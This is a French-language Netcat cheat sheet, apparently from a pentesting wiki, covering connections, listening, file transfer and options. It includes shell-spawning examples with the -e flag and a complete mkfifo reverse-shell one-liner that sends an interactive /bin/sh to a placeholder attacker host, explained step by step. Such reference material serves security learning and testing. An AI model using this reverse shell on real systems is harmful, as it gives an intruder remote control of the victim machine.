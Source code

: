 ```yaml
---
description: Netcat - Outil de Transfert de Données Réseau
---
```


# Netcat

<mark style="color:yellow;">Description :</mark>&#x20;

Netcat, également connu sous le nom de "nc", est un utilitaire puissant en ligne de commande permettant d'établir des connexions TCP/UDP, d'envoyer et de recevoir des données sur le réseau. Il peut être utilisé pour des tâches variées telles que des transferts de fichiers, des tests de port, des shells inversés, etc.

<mark style="color:yellow;">Exemples d'utilisation :</mark>

1. Connexion TCP à un hôte distant sur un port spécifique : `nc <adresse_IP>`
2. Écoute sur un port spécifique pour une connexion entrante : `nc -l -p`
3. Transfert de fichiers : \
   \
   \- Sur la machine destinataire : `nc -l -p > fichier_reçu` \
   \- Sur la machine source : `nc <adresse_IP_dest> < fichier_local`\

4. Création d'un shell inversé : \
   \- Sur la machine destinataire : \
   `nc -l -p -e cmd.exe` (Windows) \
   `nc -l -p -e /bin/bash` (Linux)  \
   \
   \- Sur la machine source : `nc <adresse_IP_dest>`



<mark style="color:yellow;">Options Principales :</mark>

* \-l : Mode écoute pour les connexions entrantes.
* \-p : Spécifier le numéro de port.
* \-e : Exécuter la commande spécifiée après la connexion (shell inversé).
* \-v : active le mode Verbose ( sortie détaillée)
* \-n : Uniquement les numéros IP, aucun nom DNS
*

<mark style="color:red;">Netcat étant rarement installé sur les systèmes de productions, et même s'il l'est, il y'a plusieurs versions de netcat dont certaines ne supportent pas le -e,</mark>

<mark style="color:red;">Si vous avez la mauvaise version de netcat, voici une commande qui pourrait vous donner un reverse shell :</mark>&#x20;

&#x20;`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attaquant_ip> <attaquant_port> >/tmp/f`

<mark style="color:red;">Détails :</mark>&#x20;

* rm /tmp/f : Supprime le fichier temporaire /tmp/f (s'il existe).
* mkfifo /tmp/f : Crée un tube nommé (fifo) dans /tmp appelé /tmp/f.
* cat /tmp/f | /bin/sh -i 2>&1 : Lit les données du tube et les passe au shell interactif (/bin/sh).
* nc \<attaquant\_ip> \<attaquant\_port> >/tmp/f : Redirige les données du shell vers l'attaquant via Netcat.
